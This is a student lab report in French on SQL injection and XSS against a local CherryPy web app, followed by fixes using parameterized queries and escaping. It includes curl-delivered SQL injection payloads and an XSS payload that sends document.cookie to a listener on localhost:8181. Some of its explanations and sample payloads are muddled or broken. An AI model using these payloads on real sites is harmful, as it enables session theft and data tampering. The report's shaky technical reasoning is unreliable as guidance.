 # Rendu "Injection"

## Binome

AMEVIGBE Yao Isidore
Nom, Prénom, email: ___


## Question 1

* Quel est ce mécanisme?
Ce mécanisme est la vérification de la chaîne de caractères à insérer par une regex. 
qui vérifie si la chaîne de caractère ne contient pas de caractères spéciaux.

* Est-il efficace? Pourquoi? 

Non ! car une injection peut probablement contenir des conditions. 
Par ailleurs sur le navigateur web on peut toute fois désactiver le javascript pour faire des injections **sql**

## Question 2

* Votre commande curl

Voici la commande curl pour pouvoir envoyer des requêtes en POST: 

```sh 
$ curl -X POST  -d "chaine=<la chaine à insérer>&submit=OK"  http://localhost:8080/
```

Exemple d'insertion
===================

```sh 
$ curl -X POST  -d "chaine=2 ; SELECT * from /submit=OK"  http://localhost:8080/
```

Insertion
=========

```sh 
$ <p>
Liste des chaines actuellement insérées:
<ul>
<li>isi envoye par: 127.0.0.1</li>
<li>cat envoye par: 127.0.0.1</li>
<li>cat envoye par: 127.0.0.1</li>
<li>cat envoye par: 127.0.0.1</li>
<li>cat envoye par: 127.0.0.1</li>
<li>res envoye par: 127.0.0.1</li>
<li>res envoye par: 127.0.0.1</li>
<li>res envoye par: 127.0.0.1</li>
<li>res2 envoye par: 127.0.0.1</li>
<li>res2 envoye par: 127.0.0.1</li>
<li>res2 envoye par: 127.0.0.1</li>
<li>res80 envoye par: 127.0.0.1</li>
<li>res2 envoye par: 127.0.0.1</li>
<li>res2 envoye par: 127.0.0.1</li>
<li>res90 envoye par: 127.0.0.1</li>
<li>res2 envoye par: 127.0.0.1</li>
<li> envoye par: 127.0.0.1</li>
<li>res2 envoye par: 127.0.0.1</li>
<li> envoye par: 127.0.0.1</li>
<li> envoye par: 127.0.0.1</li>
<li>2  envoye par: 127.0.0.1</li>

``` 

On voit avec la dernière ligne que la donnée a bien été inséré.

## Question 3

* Votre commande curl qui va permettre de rajouter une entree en mettant un contenu arbutraire dans le champ 'who'

```sh 
$ curl -X POST  -d "chaine=hack','192.152.145.18') #"  http://localhost:8080/
```

* Expliquez comment obtenir des informations sur une autre table
Pour obtenir des informations sur une autre table on peut réaliser cette commande en la combinant avec une autre en utilisant **AND** puisque la première requête sera exécuté. Si on avait utilisé un **OR** cela ne fonctionneraît pas.

## Question 4
Rendre un fichier server_correct.py avec la correction de la faille de
sécurité. Expliquez comment vous avez corrigé la faille.

Implémentation 
==============

```py 
    def index(self, **post):
        cherrypy.response.cookie["ExempleCookie"] = "Valeur du cookie"
        cursor = self.conn.cursor()
        if cherrypy.request.method == "POST":
            requete = "INSERT INTO chaines (txt,who) VALUES(%s,%s)"
            values = (post["chaine"], cherrypy.request.remote.ip)
            print("req: [" + requete + "]")
            cursor.execute(requete, values)
            self.conn.commit()

        chaines = []
        cursor.execute("SELECT txt,who FROM chaines");
        for row in cursor.fetchall():
            chaines.append(row[0] + " envoye par: " + row[1])

        cursor.close()
        return '''
```

Explication
===========

Pour le corriger on a utilisé une requête paramétré composé de deux chaînes de caractères. 
Le premier spécifiant la colonne **post["chaine"]** et la colonne ****cherrypy.request.remote.ip**

## Question 5

* Commande curl pour afficher une fenetre de dialog. 
```sh 
$ curl -X POST  -d "chaine=<script>alert(\"hello\")</script>"  http://localhost:8080/
```

* Commande curl pour lire les cookies
```sh 
$ curl -X POST  -d "chaine=<script>document.location=\"http://localhost:8181?chaine=\".concat(document.cookie)</script>"  http://localhost:8080/
```

Pour récupérer les cookies il suffit de lancer la commande curl vers un serveur sur le port 8181. On peut même evaluer le cookie et lui passer cela en paramètre.
## Question 6

Rendre un fichier server_xss.py avec la correction de la
faille. Expliquez la demarche que vous avez suivi.

Implémentation
==============

Pour eviter les failles **xss** il echapper les données lors de l'insertions et lors de l'affichage. 
Lors de l'affichage car c'est en ce moment que les données sont exécutés par le navigateur et ainsi eviter que ces données soient transmises aux malveillants. 

Pour l'insertion un code javascript peut eventuellement exécuter des codes malveillants nottament pour supprimer des données dans la BDD en réalisant des requêtes.

```py 
    def index(self, **post):
        cherrypy.response.cookie["ExempleCookie"] = "Valeur du cookie"
        cursor = self.conn.cursor()
        if cherrypy.request.method == "POST":
            requete = "INSERT INTO chaines (txt,who) VALUES(%s,%s)"
            values = (escape(post["chaine"]), cherrypy.request.remote.ip)
            print("req: [" + requete + "]")
            cursor.execute(requete, values)
            self.conn.commit()

        chaines = []
        cursor.execute("SELECT txt,who FROM chaines");
        for row in cursor.fetchall():
            chaines.append(escape(row[0]) + " envoye par: " + row[1])

        cursor.close()
        return '''
```
